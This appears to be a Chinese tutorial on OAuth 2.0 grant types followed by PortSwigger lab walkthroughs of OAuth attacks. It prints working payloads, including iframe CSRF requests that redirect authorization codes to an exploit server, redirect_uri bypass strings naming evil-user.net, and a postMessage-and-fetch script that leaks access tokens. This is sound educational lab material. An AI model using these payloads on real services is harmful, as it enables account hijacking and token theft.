


# [](#oauth-20%E5%8D%8F%E8%AE%AE%E5%8F%8A%E6%BC%8F%E6%B4%9E)OAuth 2.0协议及漏洞

## [](#1-oauth-20-%E5%8D%8F%E8%AE%AE%E7%AE%80%E4%BB%8B)1 OAuth 2.0 协议简介

OAuth 2.0 是一种授权机制，常用来授权第三方应用登录。

OAuth 就是一种授权机制。数据的所有者告诉系统，同意授权第三方应用获取用户的数据。系统从而产生一个短期的进入令牌（token），用来代替密码，供第三方应用使用。

通俗的讲，很多网站登录时，允许使用第三方网站的身份登录，其本质就是通过 OAuth 协议进行授权。

### [](#11-oauth-%E5%8D%8F%E8%AE%AE%E4%B8%AD%E7%9A%84%E8%A7%92%E8%89%B2)1.1 OAuth 协议中的角色

**Third-party application**：第三方应用程序，通常又被称为“客户端”（client）。

**HTTP service**：HTTP 服务提供商，通常又称为“服务提供商”。

**Resource Owner**：资源所有者，通常又称为“用户”（user）。

**User Agent**：用户代理，通常就是指浏览器。

**Authorization server**：认证服务器，即服务提供商专门用来处理认证的服务器。

**Resource server**：资源服务器，即服务提供商存放用户生成的资源的服务器。它与认证服务器，可以是同一台服务器，也可以是不同的服务器。

### [](#12-oauth-%E5%8D%8F%E8%AE%AE%E7%9A%84%E8%AE%A4%E8%AF%81%E6%B5%81%E7%A8%8B)1.2 OAuth 协议的认证流程

OAuth 2.0 的运行流程如下图：



-   用户打开客户端以后，客户端要求用户给予授权。
    
-   用户同意给予客户端授权。
    
-   客户端使用上一步获得的授权，向认证服务器申请令牌。
    
-   认证服务器对客户端进行认证以后，确认无误，同意发放令牌。
    
-   客户端使用令牌，向资源服务器申请获取资源。
    
-   资源服务器确认令牌无误，同意向客户端开放资源。
    

### [](#13-oauth-20-%E5%9B%9B%E7%A7%8D%E6%8E%88%E6%9D%83%E6%96%B9%E5%BC%8F)1.3 OAuth 2.0 四种授权方式

#### [](#131-authorization-code---%E6%8E%88%E6%9D%83%E7%A0%81%E6%A8%A1%E5%BC%8F)1.3.1 authorization code - 授权码模式

授权码方式指的是三方应用需要先申请授权码，然后再用该授权码获取访问系统的令牌。

下面是该授权方式的流程图，以第三方网站使用 Github 账号登录为例：



Step1：第三方网站提供一个链接，用户点击后就会跳转到 Github，授权用户数据给第三方网站使用。下面就是第三方网站跳转 Github 的一个示意链接。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>https://github.com/oauth/authorize?<br>  response_type=code&<br>  client_id=CLIENT_ID&<br>  redirect_uri=CALLBACK_URL&<br>  scope=read<br>``` |

`response_type` 参数表示要求以授权码`code`形式返回结果，`client_id` 参数让 `github.com` 知道是谁在请求，`redirect_uri`参数是 Github 接受或拒绝请求后的跳转网址，`scope`参数表示要求的授权范围（这里是只读）。

Step2：用户跳转后，Github 会要求用户登录，然后询问是否同意给予第三方网站授权。用户表示同意，这时 Github 就会按照`redirect_uri`参数指定的网址进行跳转，并传回一个授权码：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>https://a.com/callback?code=授权码<br>``` |

Step3：第三方网站拿到授权码以后，向 Github 网站请求令牌。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```fallback<br>https://github.com/oauth/token?<br> client_id=CLIENT_ID&<br> client_secret=CLIENT_SECRET&<br> grant_type=authorization_code&<br> code=AUTHORIZATION_CODE&<br> redirect_uri=CALLBACK_URL<br>``` |

`client_id`参数和`client_secret`参数用来让 Github 确认 A 的身份； `client_secret` 参数是保密的，因此只能在后端发请求），`grant_type` 参数的值是 `AUTHORIZATION_CODE`，表示采用的授权方式是授权码，`code` 参数是 Step2 拿到的授权码，`redirect_uri` 参数是令牌颁发后的回调网址。

Step4：Github 收到请求以后向第三方网站颁发令牌。即：向 `redirect_uri` 指定的网址发送一段数据，如：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```json<br>{    <br>  "access_token":"ACCESS_TOKEN",<br>  "token_type":"bearer",<br>  "expires_in":2592000,<br>  "refresh_token":"REFRESH_TOKEN",<br>  "scope":"read",<br>  "uid":100101,<br>  "info": "..."<br>}<br>``` |

后续第三方网站就可以带着这个 Token 获取请求用户资源了。

#### [](#132-implicit---%E9%9A%90%E8%97%8F%E5%BC%8F)1.3.2 implicit - 隐藏式

这种模式允许直接向前端颁发令牌，这种方式简化了获取授权码的中间步骤。


Step1：第三方网站提供一个链接，要求用户跳转到 Github 网站，授权用户数据给第三方网站使用。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>https://github.com/oauth/authorize?<br>  response_type=token&<br>  client_id=CLIENT_ID&<br>  redirect_uri=CALLBACK_URL&<br>  scope=read<br>``` |

Step2：用户跳转到 Github，登录后同意给予第三方网站授权。这时，Github 网站就会跳回 `redirect_uri` 参数指定的跳转网址，并且把令牌作为 URL 参数，传给第三方网站。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>https://a.com/callback#token=ACCESS_TOKEN<br>``` |

`token`参数就是令牌，第三方可以直接在前端拿到令牌。

> 令牌的位置保存在 URL 锚点中，因为 OAuth 2.0 允许跳转网址使用 HTTP 协议，因此存在“中间人攻击”的风险，而浏览器跳转时，锚点不会发到服务端，这样就可以减少令牌泄漏的风险。

#### [](#133-password---%E5%AF%86%E7%A0%81%E5%BC%8F)1.3.3 password - 密码式

如果某个应用处在相对信任的环境，RFC 6749 也允许用户把用户名和密码直接传递给该应用。该应用通过使用用户的密码申请令牌。


Step 1：第三方网站要求用户提供 Github 网站的用户名和密码。第三方网站拿到凭据后，直接向 Github 请求令牌。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>https://github.com/token?<br>  grant_type=password&<br>  username=USERNAME&<br>  password=PASSWORD&<br>  client_id=CLIENT_ID<br>``` |

Step 2：Github 验证身份通过后，直接给出令牌。这种情况下不需要 redirect 跳转，而是把令牌放在 JSON 数据里面，作为 HTTP 回应，A 因此拿到令牌。

#### [](#134-client-credentials---%E5%87%AD%E8%AF%81%E5%BC%8F)1.3.4 client credentials - 凭证式

这种方式适用于没有前端的命令行应用，即在命令行下请求令牌。

Step 1：第三方在命令行向 Github 发出请求。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>https://github.com/token?<br>  grant_type=client_credentials&<br>  client_id=CLIENT_ID&<br>  client_secret=CLIENT_SECRET<br>``` |

Step 2：Github 验证通过以后，直接返回令牌。

这种方式给出的令牌，是针对第三方应用的，而不是针对用户个人的，因此存在多个用户共享同一个令牌的可能性。

### [](#14-%E4%BB%A4%E7%89%8C%E7%9A%84%E4%BD%BF%E7%94%A8)1.4 令牌的使用

第三方网站拿到令牌以后，就可以向 Github 的 API 请求数据了。

此时，每个发到 API 的请求，都必须带有令牌。具体做法是在请求的头信息，加上一个`Authorization`字段，令牌就放在这个字段里面。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>curl -H "Authorization: Bearer ACCESS_TOKEN" \<br>"https://github.com"<br>``` |

## [](#2-oauth20-%E8%AE%A4%E8%AF%81%E6%BC%8F%E6%B4%9E)2 OAuth2.0 认证漏洞

### [](#21-oauth-%E5%AE%A2%E6%88%B7%E7%AB%AF%E5%BA%94%E7%94%A8%E7%A8%8B%E5%BA%8F%E7%9A%84%E6%BC%8F%E6%B4%9E)2.1 OAuth 客户端应用程序的漏洞

#### [](#211-authentication-bypass-via-oauth-implicit-flow)2.1.1 Authentication bypass via OAuth implicit flow

靶场地址：[https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow)

前面的章节中描述过隐式授权常用于直接向前端颁发令牌。在这个流程中，访问令牌是通过用户的浏览器以 URL 参数的形式从 OAuth 服务发送到客户端应用程序的。然后，客户端应用程序使用 JavaScript 访问该令牌。问题是，如果应用程序想在用户关闭页面后保持会话，它需要在某个地方存储当前的用户数据。

为了解决这个问题，客户端应用程序通常会在一个 POST 请求中把这些数据提交给服务器，然后给用户分配一个会话 cookie。这个请求类比基于密码验证的表单提交请求。然而，在这种情况下，服务器没有对 token 与用户 id 进行比较与鉴别，因此存在风险。

靶场中相关的数据包如下：


首先携带 `client_id` 访问 `auth` 路由向认证服务端请求授权：


之后重定向 `url`, 然后输入了账号密码进行认证：


获取 access\_token：


`/oauth-callback` 路由下获取到 Ajax 的请求信息：


首先会请求 `/me` 去验证访问权限，再向 `/authenticate` 路由发送对应信息，获取持久化 Cookie：


将 `email` 修改为：`carlos@carlos-montoya.net`，即可实现越权：


#### [](#212-flawed-csrf-protection)2.1.2 Flawed CSRF protection

这个漏洞的主要成因是错误配置 `OAuth` 组件，比如说 `state` 参数的配置，这个参数一般都是与会话信息相关联的一个 hash 值，在服务端和客户端之间来回传递，作为客户端的`CSRF`令牌。

靶场地址：[https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)

首先使用 `wiener:peter` 账号登录，点击 `Attach a social profile`：


`redirect_uri`中将授权代码发送到了`/oauth-linking`路由中，特别的是，这里并没有 `state` 参数的存在，存在有 CSRF 漏洞


重新生成一个有效 code：


构造 csrf 请求：


重新使用社交媒体账号登录，获取 admin 权限，即实现用攻击者的社交媒体账号绑定管理员的网站账号：


### [](#22-%E7%BC%BA%E5%B0%91%E6%8E%88%E6%9D%83%E7%A0%81%E5%92%8C%E8%AE%BF%E9%97%AE%E4%BB%A4%E7%89%8C)2.2 缺少授权码和访问令牌

根据 RFC 文档，获取到的 token 将被发送到授权请求的 `redirect_uri` 参数中的位置，如果服务端没有正确的校验这个URI，攻击者就能够通过这个漏洞将客户端的 codes 和 token 发送到攻击者控制的 `redirect_uri` 参数指定位置。那么攻击者就可以利用这些信息发送到服务端合法的 `redirect_uri` 地址中，就能成功获取用户的账户的访问权限。

#### [](#221-flawed-redirect_uri-validation)2.2.1 Flawed redirect\_uri validation

靶场地址：[https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)

第一次登录：


退出后重新登录：


修改 `redirect_uri`：`https://exploit-0ad8005303814d4180b43e2501ed0024.exploit-server.net/exploit`

构造 CSRF 请求 Payload：`<iframe src="https://oauth-0a8500b803764d57807c3d2b02cd0008.oauth-server.net/auth?client_id=r9sfjw4x66elhfvknv296&redirect_uri=https://exploit-0ad8005303814d4180b43e2501ed0024.exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email"></iframe>`

在日志中获取管理员 token：


利用管理员 token 进行登录：


#### [](#222-flawed-redirect_uri-validation)2.2.2 Flawed redirect\_uri validation

有些 OAuth 服务或对`redirect_uri` 参数开启白名单校验，如果校验规则存在问题，同样可以绕过，比如：

-   绕过字符串匹配：
    -   `https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/`
-   提交重复的 redirect\_uri 参数检测是否存在服务端参数污染漏洞：
    -   `https://oauth-authorization-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net`

#### [](#223-stealing-oauth-access-tokens-via-an-open-redirect)2.2.3 Stealing OAuth access tokens via an open redirect

靶场地址：[https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

在这个环境中，`redirect_uri` 不能传递到外部域当中，尝试获取新的绕过方式。


寻找网站自身 URL 重定向漏洞，其中 `path` 参数可以任意指定，并任意跳转：


重新修改 `redirect_uri`，绕过限制：


提交 payload：


查看日志，获取 code：


获取 admin api key：


#### [](#224-stealing-codes-and-access-tokens-via-a-proxy-page)2.2.4 Stealing codes and access tokens via a proxy page

靶场地址：[https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)

本环境借助网站前端自身特性来绕过 `redirect_uri` 的限制


这段 JavaScript 代码使用 `postMessage` 方法向当前窗口的父窗口发送消息。

具体来说，代码中的参数 `{type: 'onload', data: window.location.href}` 是要发送的消息体，它包含了两个属性：

-   `type`: 表示消息的类型，这里是 `'onload'`，可能表示当前窗口已经加载完毕。
-   `data`: 表示消息的数据，这里是当前窗口的 URL 地址，通过 `window.location.href` 获取。

而 `'*'` 表示目标窗口的源可以是任何值，即不限制发送目标。

这种方式可以在跨域的情况下进行窗口之间的通信，可以用于实现单页应用（SPA）中的路由控制、子窗口与父窗口之间的通信等场景。接收消息的窗口需要使用 `window.addEventListener` 方法监听消息事件，并在事件处理函数中进行相应的操作。

构造 payload：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```html<br><iframe src="https://oauth-0a9e0004046695e5808b109b02130039.oauth-server.net/auth?client_id=i68727fixf7k81yma64w4&redirect_uri=https://0acc0028043595bf80f11233008c00a2.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe><br><script><br>    window.addEventListener('message', function(e) {<br>        fetch("/" + encodeURIComponent(e.data.data))<br>    }, false)<br></script><br>``` |

这段 JavaScript 代码中，首先使用 `window.addEventListener` 方法为当前窗口添加了一个 `message` 事件的监听器。当接收到其他窗口通过 `postMessage` 方法发送过来的消息时，就会触发这个事件，执行后面的回调函数。

在回调函数中，`e` 参数是一个事件对象，包含了发送的消息和其他信息。其中，`e.data` 属性表示接收到的消息内容，它包含了一个 `data` 属性，是发送的消息体。因此，`encodeURIComponent(e.data.data)` 会将接收到的消息体转换成 URL 编码格式的字符串，并作为路径参数，构造一个 `fetch` 请求。

具体来说，这个 `fetch` 请求会向当前网站的根路径（`"/"`）发送一个 GET 请求，路径中包含了一个 URL 编码后的字符串，这个字符串是之前通过 `postMessage` 方法发送过来的消息体的 `data` 属性值。

获取 log，并访问 `/me` 路由获取 `apikey`：


### [](#23-%E6%9C%89%E7%BC%BA%E9%99%B7%E7%9A%84%E8%8C%83%E5%9B%B4%E9%AA%8C%E8%AF%81)2.3 有缺陷的范围验证

用户都必须定义授权的范围，但是存在某些漏洞导致攻击者可以扩大授权的范围，获得更大权限的访问令牌。

#### [](#231-scope-upgrade-authorization-code-flow)2.3.1 Scope upgrade: authorization code flow

使用授权码授权类型时，攻击者窃取到授权码，然后攻击者可以在交换授权码或访问令牌的请求中再添加其他的范围值，如果服务器没有对篡改的范围进行验证，则服务器会利用新的范围制作访问令牌并发放给客户端应用程序

例如，假设攻击者的恶意客户端应用程序最初使用 openid email 范围请求访问用户的电子邮件地址。在用户批准此请求后，恶意客户端应用程序将收到授权码。由于攻击者控制他们的客户端应用程序，他们可以将另一个范围参数添加到代码 / 令牌交换请求中，包含额外的 profile 范围。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```http<br>POST /token<br>Host: oauth-authorization-server.com<br><br>client_id=12345&client_secret=SECRET&redirect_uri=https://client-app.com/callback&grant_type=authorization_code&code=a1b2c3d4e5f6g7h8&scope=openid%20email%20profile<br>``` |

如果服务器没有根据初始授权请求的范围验证这一点，它有时会使用新范围生成访问令牌并将其发送到攻击者的客户端应用程序：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```json<br>{<br>  "access_token": "z0y9x8w7v6u5",<br>  "token_type": "Bearer",<br>  "expires_in": 3600,<br>  "scope": "openid email profile",<br>  …<br>}<br>``` |

#### [](#232-scope-upgrade-implicit-flow)2.3.2 Scope upgrade: implicit flow

对于隐式授权类型，访问令牌是通过浏览器发送的，这意味着攻击者可以窃取与客户端应用程序相关联的令牌并直接使用它们。一旦攻击者窃取了访问令牌，他们可以向 OAuth 服务的 `/userinfo` 路由发送正常的基于浏览器的请求，在此过程中手动添加新的范围参数。

### [](#24-%E6%9C%AA%E9%AA%8C%E8%AF%81%E7%9A%84%E7%94%A8%E6%88%B7%E6%B3%A8%E5%86%8C)2.4 未验证的用户注册

当通过 OAuth 认证用户时，客户端应用程序会假设 OAuth 提供者所存储的信息是正确的。这可能是一个危险的假设。

一些提供 OAuth 服务的网站允许用户在没有验证他们所有细节的情况下注册一个账户，在某些情况下包括他们的电子邮件地址。攻击者可以利用这一点，使用与目标用户相同的细节，如已知的电子邮件地址，向 OAuth 提供商注册一个账户。客户端应用程序可能会允许攻击者通过这个 OAuth 提供商的账户作为受害者登录。

## [](#%E5%8F%82%E8%80%83)参考

-   [RFC 6749](http://www.rfcreader.com/#rfc6749_line163)
-   [阮一峰 Oauth 系列日志](https://www.ruanyifeng.com/blog/2019/04/oauth-grant-types.html)
-   [portswigger oauth](https://portswigger.net/web-security/oauth)
